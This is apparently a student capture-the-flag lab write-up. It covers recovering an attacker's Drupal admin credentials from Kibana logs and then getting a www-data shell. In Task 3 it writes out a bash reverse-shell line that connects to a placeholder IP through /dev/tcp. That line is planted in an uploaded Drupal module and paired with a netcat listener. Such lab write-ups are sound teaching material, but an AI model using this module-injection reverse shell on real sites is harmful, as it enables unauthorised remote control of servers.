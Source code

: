     
## Task 2 -  Web access

We had access to the correct Drupal console but not the correct credentials to enter the admin console. The forensics evidence from Kibana contained over 87,000 hits; thus, some filtering was necessary to narrow the search. First, we thought that a great place to start looking for credentials was in the `http POST request` messages. When a user logs in or tries to log in, an http POST request is sent, and a successful or unsuccessful response is received. Then, after adding the filter `http.request.method: POST` we were left with 19 hits. 

When looking through some of them, we noticed that several of them tried to access the `user/login` page and thought that this filter might give us a narrow search. As seen below, adding the filter `http.request.headers.referer: http://10.13.37.4/user/login` left us with just three hits. 

 ![image](https://user-images.githubusercontent.com/72946914/167696514-2b4ac726-2db8-4f0f-b37b-3dca1585a008.png)

The attacker tried three different passwords, and most likely, his last attempt was the successful one. By checking the `http.response` message in this record, we see that the user was redirected to `http://10.13.374/user/1?check_logged_in=1`, indicating that the attempt was successful. 
![image](https://user-images.githubusercontent.com/72946914/167710984-476f3164-8e7f-4858-a15c-86fac3a04cf3.png)

Our thought was confirmed when entering the username *god* and password *password1* caused a successful login. 
![image](https://user-images.githubusercontent.com/72946914/164683204-efd1c930-bdf7-4b6b-931f-da415ef65e74.png)

Navigating to the user's profile information, we located the flag. 

![image](https://user-images.githubusercontent.com/72946914/167711169-60189d5c-6df1-491f-8c19-5738fe0c1425.png)

**`Flag: IKT449{admin_access=god}`**

## Task 3 - www-data

We already knew that we had to use the reverse shell technique to get interactive access to www-data, which could also be seen in the logs from Kibana. By investigating the hits from the previous task, we also saw that the Drupal version running at this site was Drupal 9. 

With a quick Google search at "drupal 9 reverse shell" we found several websites explaining the way forward for carrying out this attack. Several Drupal versions are vulnerable to remote code execution due to insecure use of `unserialize()` [(source)](https://vk9-sec.com/drupal-7-x-module-services-remote-code-execution/). One of the sites we found [(link)](https://www.sevenlayers.com/index.php/257-drupal-8-to-reverse-shell) provided us with a well-explained step-by-step guide which we benefitted from. 

The guide describes how one can exploit the use of modules in Drupal by inserting code into a `.module` file. At Drupal's website, we downloaded a random module compatible with Drupal 9, in this case, called *token*. 

![image](https://user-images.githubusercontent.com/70077872/167573879-1302944a-d324-45a6-800e-147cb45be604.png)

After unzipping the module, we added the following code line, with our designated IP address and the desired port number, to the file called `codefilter.module` : 

    exec("/bin/bash -c 'bash -i >& /dev/tcp/ip_address/portnumber 0>&1'");
![image](https://user-images.githubusercontent.com/70077872/167573750-8dca4946-dd94-4f2d-8923-ecbda7b62a48.png)

 At the same time, we started a port listener in a terminal window by executing the command `nc -nvlp port number. 


After uploading the module, enabling it and installing it, we got a shell to www-data. 

![image](https://user-images.githubusercontent.com/70077872/167573128-1848a4ee-8881-4bbb-96e2-9aabb47cfe50.png)

We found the flag in `www-data.txt`.

![image](https://user-images.githubusercontent.com/70077872/167573357-162e2f3f-67d6-414f-bfb7-b871ac042453.png)

**`Flag: IKT449{who_would_have_thought_adding_modules_is_bad}`**
